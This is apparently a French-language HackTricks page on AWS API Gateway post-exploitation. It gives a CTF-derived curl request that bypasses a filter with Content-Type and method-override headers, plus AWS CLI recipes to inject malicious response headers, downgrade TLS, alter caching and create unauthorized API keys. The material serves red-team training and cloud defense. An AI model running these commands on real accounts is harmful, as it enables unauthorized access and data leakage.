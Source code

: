 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accéder aux API non exposées

Vous pouvez créer un point de terminaison dans [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) avec le service `com.amazonaws.us-east-1.execute-api`, exposer le point de terminaison dans un réseau auquel vous avez accès (potentiellement via une machine EC2) et attribuer un groupe de sécurité permettant toutes les connexions.\
Ensuite, depuis la machine EC2, vous pourrez accéder au point de terminaison et donc appeler l'API de la passerelle qui n'était pas exposée auparavant.

### Contourner le passage du corps de la requête

Cette technique a été trouvée dans [**ce rapport CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Comme indiqué dans la [**documentation AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) dans la section `PassthroughBehavior`, par défaut, la valeur **`WHEN_NO_MATCH`**, lors de la vérification de l'en-tête **Content-Type** de la requête, transmettra la requête au backend sans transformation.

Par conséquent, dans le CTF, la passerelle API avait un modèle d'intégration qui **empêchait le drapeau d'être exfiltré** dans une réponse lorsqu'une requête était envoyée avec `Content-Type: application/json` :

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Cependant, envoyer une requête avec **`Content-type: text/json`** empêcherait ce filtre.

Enfin, comme l'API Gateway n'autorisait que `Get` et `Options`, il était possible d'envoyer une requête dynamoDB arbitraire sans aucune limite en envoyant une requête POST avec la requête dans le corps et en utilisant l'en-tête `X-HTTP-Method-Override: GET` :

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plans d'utilisation DoS

Dans la section **Énumération**, vous pouvez voir comment **obtenir le plan d'utilisation** des clés. Si vous avez la clé et qu'elle est **limitée** à X utilisations **par mois**, vous pourriez **simplement l'utiliser et provoquer un DoS**.

La **clé API** doit simplement être **incluse** dans un **en-tête HTTP** appelé **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateGatewayResponse` et `apigateway:CreateDeployment` peut **modifier une réponse de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateStage` et `apigateway:CreateDeployment` peut **modifier une étape existante de l'API Gateway pour rediriger le trafic vers une autre étape ou changer les paramètres de mise en cache pour obtenir un accès non autorisé aux données mises en cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès non autorisé aux données mises en cache, perturbation ou interception du trafic API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:PutMethodResponse` et `apigateway:CreateDeployment` peut **modifier la réponse de méthode d'une méthode API Gateway REST API existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateRestApi` et `apigateway:CreateDeployment` peut **modifier les paramètres de l'API Gateway REST API pour désactiver la journalisation ou changer la version minimale de TLS, affaiblissant potentiellement la sécurité de l'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Affaiblissement de la sécurité de l'API, permettant potentiellement un accès non autorisé ou exposant des informations sensibles.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaquant avec les permissions `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, et `apigateway:CreateUsagePlanKey` peut **créer de nouvelles clés API, les associer à des plans d'utilisation, puis utiliser ces clés pour un accès non autorisé aux APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impact potentiel** : Accès non autorisé aux ressources API, contournement des contrôles de sécurité.

{% hint style="info" %}
Besoin de tests
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
